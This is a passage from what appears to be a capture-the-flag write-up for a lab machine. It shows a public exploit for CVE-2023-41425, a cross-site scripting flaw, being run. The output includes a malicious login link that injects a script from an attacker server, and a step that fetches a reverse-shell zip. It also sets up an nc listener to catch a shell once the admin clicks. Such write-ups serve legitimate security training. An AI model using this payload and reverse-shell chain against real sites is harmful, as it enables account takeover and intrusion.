 We discovered that this version is vulnerable to cross site scripting, searching for a POC exploit we got a github repo with the exploit ready for use.

## Exploitation
```bash
./CVE-2023-41425 http://sea.htb/index.php?page=LoginURL 10.10.14.17 4444
[+] Preparing to download the reverse shell zip file from: http://10.10.14.17:8000/main.zip
[+] Reverse shell downloaded and saved as rev.php
[+] Updating rev.php with provided IP: 10.10.14.17 and Port: 4444
[+] rev.php updated with the correct IP and Port.
[+] Creating ZIP file with rev.php...
[+] main.zip created successfully.
[+] File created: xss.js
[+] Setting up reverse shell listener:
Use the following command in your terminal: nc -nvlp 4444
[+] Send the following malicious link to the admin:
http://sea.htb/index.php?page=LoginURL"></form><script+src="http://10.10.14.17:8000/xss.js"></script><form+action="
Waiting for the admin to trigger the payload.
[+] Port 8000 is available.
[+] Starting a simple HTTP server to serve the XSS payload...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
We need to send the XSS to the administrator. When the administrator clicks on it we will get our reverse shell back

![picture alt](assets/Send_Exploit.png)

